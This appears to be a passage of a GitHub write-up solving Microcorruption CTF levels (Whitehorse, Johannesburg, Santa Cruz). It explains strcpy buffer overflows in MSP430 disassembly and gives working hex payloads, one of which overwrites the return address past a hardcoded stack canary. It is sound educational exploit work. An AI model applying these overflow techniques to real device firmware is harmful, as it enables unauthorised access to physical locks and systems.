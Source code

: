 Another solution would be to take `0x7e` which is passed to `INT` function inside `conditional_unlock_door` at `0x445e` (`445c:  3012 7e00      push	#0x7e`), write it in `r15` and increment, thus creating `0x7f`:
```assembly
1f42 5e44    mov &0x445e, r15
1f53         inc r15
```
The shellcode looks as follows: `1f425e441f530f12b0124c4531313131ee43`. It is *2 bytes less in length* comparing to the previous approach (particularly, executing shellcode *before* the return address), although the amount of CPU cycles is the same.

The same approach can be applied for **Whitehorse** level as well, but the memory addresses are different: `1f425e441f530f12b0123245313131318830`

## Johannesburg (rev b.04)

The lock is attached to HSM version 1 and `a firmware update rejects passwords which are too long`. The program uses `strcpy` and contains `unlock_door` function that is located at `0x4446`. `login` function also contains hardcoded stack canary (`0x30`) at `0x43fd` (byte before the return address on the stack):
```assembly
452c <login>
...
4552:  3e40 0024      mov	#0x2400, r14
4556:  0f41           mov	sp, r15
4558:  b012 2446      call	#0x4624 <strcpy>
...
4570:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4574:  b012 f845      call	#0x45f8 <puts>
4578:  f190 3000 1100 cmp.b	#0x30, 0x11(sp) ; hardcoded stack canary
457e:  0624           jz	$+0xe <login+0x60>
4580:  3f40 ff44      mov	#0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call	#0x45f8 <puts>
4588:  3040 3c44      br	#0x443c <__stop_progExec__>
458c:  3150 1200      add	#0x12, sp
4590:  3041           ret
```
The password is written to `0x43ec` and the return address is stored at `0x43fe`. With hardcoded stack canary, the 18th byte of the shellcode must be `0x30` followed by the address of `unlock_door` to overwrite the return address: `3131313131313131313131313131313131304644`.

## Santa Cruz (rev b.05)

The lock is attached to HSM version 1 and `a firmware update further rejects passwords which are too long`. This is the first lock with username and password.

After entering username and password, it uses `strcpy` to copy data to `0x43a2` and `0x43b5` respectively. Then, it calculates the length of the password using a loop in order to check if the length is between `0x08` and `0x10` (those numbers are defined at `0x43b3` and `0x43b4`) and if not, then the program will exit:

```assembly
4550 <login>
...
45d0:  0f4b           mov	r11, r15 ; Calculating the length of the password, r14 is initialized to 0x43b4, incremented in a loop until it reaches zero byte
45d2:  0e44           mov	r4, r14
45d4:  3e50 e8ff      add	#0xffe8, r14
45d8:  1e53           inc	r14
45da:  ce93 0000      tst.b	0x0(r14)
45de:  fc23           jnz	$-0x6 <login+0x88>
45e0:  0b4e           mov	r14, r11 ; r11 saves the address of r14 which shall hold the address of the first null byte after the password
45e2:  0b8f           sub	r15, r11 ; r11 - r15 (r15 holds 0x43b5 which is the address of the password's first byte), so now r11 holds the length of the password
```